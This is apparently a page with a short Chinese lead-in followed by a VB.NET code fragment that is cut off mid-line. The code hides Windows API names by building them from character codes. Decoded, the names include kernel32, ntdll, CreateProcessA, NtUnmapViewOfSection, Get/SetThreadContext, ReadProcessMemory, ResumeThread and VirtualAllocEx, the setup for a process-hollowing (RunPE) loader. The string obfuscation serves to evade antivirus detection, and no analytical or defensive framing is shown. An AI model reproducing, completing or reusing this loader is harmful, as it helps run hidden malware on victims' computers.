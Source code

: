 blabla 变成：

```
textbox2.text=(char45 & char34 char45 & char34 char45 & char64 ) 
```

**代码**：

```
Dim LIBRARY1 As [String] = Convert.ToString(ChrW(107)) & ChrW(101) & _
ChrW(114) & ChrW(110) & ChrW(101) & ChrW(108) & ChrW(51) & ChrW(50)

Dim LIBRARY2 As [String] = Convert.ToString(ChrW(110)) & ChrW(116) & _
ChrW(100) & ChrW(108) & ChrW(108)

Dim _NATIVEVAR1 As _NATIVEAPI1 = _CREATEAPI(Of _NATIVEAPI1)(LIBRARY1, _
Convert.ToString(ChrW(67)) & ChrW(114) & ChrW(101) & ChrW(97) & ChrW(116) _
& ChrW(101) & ChrW(80) & ChrW(114) & ChrW(111) & ChrW(99) & ChrW(101) & _
ChrW(115) & ChrW(115) & ChrW(65))

Dim _NATIVEVAR2 As _NATIVEAPI4 = _CREATEAPI(Of _NATIVEAPI4)(LIBRARY2, _
Convert.ToString(ChrW(78)) & ChrW(116) & ChrW(85) & ChrW(110) & ChrW(109) _
& ChrW(97) & ChrW(112) & ChrW(86) & ChrW(105) & ChrW(101) & ChrW(119) & _
ChrW(79) & ChrW(102) & ChrW(83) & ChrW(101) & ChrW(99) & ChrW(116) & _
ChrW(105) & ChrW(111) & ChrW(110))

Dim _NATIVEVAR3 As _NATIVEAPI2 = _CREATEAPI(Of _NATIVEAPI2)(LIBRARY1, _
Convert.ToString(ChrW(71)) & ChrW(101) & ChrW(116) & ChrW(84) & ChrW(104) _
& ChrW(114) & ChrW(101) & ChrW(97) & ChrW(100) & ChrW(67) & ChrW(111) & _
ChrW(110) & ChrW(116) & ChrW(101) & ChrW(120) & ChrW(116))

Dim _NATIVEVAR4 As _NATIVEAPI3 = _CREATEAPI(Of _NATIVEAPI3)(LIBRARY1, _
Convert.ToString(ChrW(83)) & ChrW(101) & ChrW(116) & ChrW(84) & _
ChrW(104) & ChrW(114) & ChrW(101) & ChrW(97) & ChrW(100) & ChrW(67) & _
ChrW(111) & ChrW(110) & ChrW(116) & ChrW(101) & ChrW(120) & ChrW(116))

Dim _NATIVEVAR5 As _NATIVEAPI5 = _CREATEAPI(Of _NATIVEAPI5)(LIBRARY1, _
Convert.ToString(ChrW(82)) & ChrW(101) & ChrW(97) & ChrW(100) & _
ChrW(80) & ChrW(114) & ChrW(111) & ChrW(99) & ChrW(101) & ChrW(115) _
& ChrW(115) & ChrW(77) & ChrW(101) & ChrW(109) & ChrW(111) & _
ChrW(114) & ChrW(121))

Dim _NATIVEVAR6 As _NATIVEAPI6 = _CREATEAPI(Of _NATIVEAPI6)(LIBRARY1, _
Convert.ToString(ChrW(82)) & ChrW(101) & ChrW(115) & ChrW(117) & ChrW(109) _
& ChrW(101) & ChrW(84) & ChrW(104) & ChrW(114) & _
ChrW(101) & ChrW(97) & ChrW(100))

Dim _NATIVEVAR7 As _NATIVEAPI7 = _CREATEAPI(Of _NATIVEAPI7)(LIBRARY1, _
Convert.ToString(ChrW(86)) & ChrW(105) & ChrW(114) & ChrW(116) & _
ChrW(117) & ChrW(97) & ChrW(108) & ChrW(65) & ChrW(108) & ChrW(108) & _
ChrW(111) & ChrW(99) & ChrW(69) & ChrW(120))

Dim _NATIVEVAR8 As _NATIVEAPI9 = _CREATEAPI(Of _NATIVEAPI9)(LIBRARY1, _
Convert.ToString(ChrW(8 
```

